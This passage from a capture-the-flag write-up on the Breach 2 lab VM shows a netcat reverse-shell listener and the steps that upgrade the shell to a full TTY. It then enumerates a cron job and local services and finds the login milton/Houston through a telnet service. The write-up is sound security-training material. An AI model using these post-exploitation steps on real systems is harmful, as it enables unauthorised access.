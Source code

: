 I upgraded to a full TTY shell, and I could see the script that visits the blog every 4 minutes.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.110.150] from (UNKNOWN) [192.168.110.151] 34017
script -qc /bin/bash /dev/null
peter@breach2:~$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

peter@breach2:~$ export TERM=screen
peter@breach2:~$ stty rows 39 columns 164
peter@breach2:~$ ls
Desktop  Documents  Downloads  firefox.sh  Music  Pictures  Public  Templates  Videos
peter@breach2:~$ cat firefox.sh 
#!/bin/bash

xvfb-run --auto-servernum --server-num=1 /opt/firefox/firefox http://192.168.110.151/blog/members.html
peter@breach2:~$ crontab -l
...
*/4 * * * * cd /home/peter && ./firefox.sh
```

Then I list the services running and found a service enabled on port 2323.

```console
peter@breach2:~$ ss -antl
State      Recv-Q Send-Q          Local Address:Port            Peer Address:Port
LISTEN     0      128                         *:65535                      *:*
LISTEN     0      128                         *:57640                      *:*
LISTEN     0      50                  127.0.0.1:3306                       *:*
LISTEN     0      128                         *:111                        *:*
LISTEN     0      64                  127.0.0.1:2323                       *:*
LISTEN     0      128                        :::49547                     :::*
LISTEN     0      128                        :::111                       :::*
LISTEN     0      128                        :::80                        :::*
```

I connected to that service and found the coordinates of a place, and a log in.

```console
peter@breach2:~$ telnet 127.0.0.1 2323
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
29 45'46" N 95 22'59" W 
breach2 login: ^CConnection closed by foreign host.
```

I searched on google maps and found references of a place located in Houston, after a several attempts of login I discovered that the user is milton and the password is Houston, but there is another problem, ask us, whose stapler is it?
